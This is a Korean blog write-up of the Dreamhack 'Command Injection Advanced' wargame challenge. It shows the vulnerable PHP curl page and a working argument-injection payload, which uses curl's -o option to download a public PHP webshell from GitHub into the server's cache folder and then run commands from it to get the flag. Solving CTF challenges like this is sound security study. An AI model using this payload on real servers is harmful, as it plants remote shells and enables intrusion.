 ```yaml
---
title: (11) Dreamhack Command Injection Advanced 문제 풀이
date: 2024-01-14 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
![](http://localhost:4000/assets/img/post/11/1.png)
들어오면 이런 사이트가 뜹니다.  
  
일단 index.php 코드부터 보겠습니다.
```php
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online Curl Request</h1>
    <?php
        if(isset($_GET['url'])){
            $url = $_GET['url'];
            if(strpos($url, 'http') !== 0 ){
                die('http only !');
            }else{
                $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
                $cache_file = './cache/'.md5($url);
                file_put_contents($cache_file, $result);
                echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
                echo '<pre>'. htmlentities($result) .'</pre>';
                return;
            }
        }else{
        ?>
            <form>
                <div class="field">
                    <label class="label">URL</label>
                    <input class="input" type="text" placeholder="url" name="url" required>
                </div>
                <div class="control">
                    <input class="button is-success" type="submit" value="submit">
                </div>
            </form>
        <?php
        }
    ?>
        </div>
        </div>
    </body>
</html>
```
curl 요청을 보내고 결과를 cache 파일로 저장해준다고 합니다. url은 http로 시작해야 하고요.  
  
php에, 외부 파일을 다운 받을 수 있는 조건? 저는 바로 웹쉘이 떠올랐습니다. 일단 php 웹쉘 부터 구해야 겠죠?  
구글에 php webshell 만 검색하면 아주 많이 나올텐데 저는 맨 위에 있는 [웹쉘](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php)을 사용했습니다.
  
저는 curl을 자주 사용해서 익숙한데, 안써보신 분들을 위해 알려드리자면,
curl은 다양한 프로토콜로 데이터를 송수신하기 위한 프로그램으로 당연히 http(s) 같은 웹 프로토콜도 지원합니다. 이를 활용해 파일을 다운받을 수도 있습니다. curl에는 몇가지 옵션이 있는데, 그중 하나인 `-o`옵션은 요청 결과를 원하는 위치에 저장이 가능합니다.  
  
딱히 필터링이 없으므로 아무거나 적을 수 있습니다.
```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php -o /var/www/html/cache/shell.php
```
저는 다음과 같이 적었습니다.
![](http://localhost:4000/assets/img/post/11/2.png)
우리는 cache의 shell.php로 접속하면 되므로 cache file은 필요없고 그냥 `/cache/shell.php`로 접속합니다.
![](http://localhost:4000/assets/img/post/11/3.png)
웹쉘 화면이 잘 나오는군요. 이젠 flag를 찾기만 하면 됩니다. 찾아보면 그냥 /에 있습니다.
![](http://localhost:4000/assets/img/post/11/4.png)
저 flag 파일을 실행해주면
![](http://localhost:4000/assets/img/post/11/5.png)
flag가 나옵니다.
{% endraw %}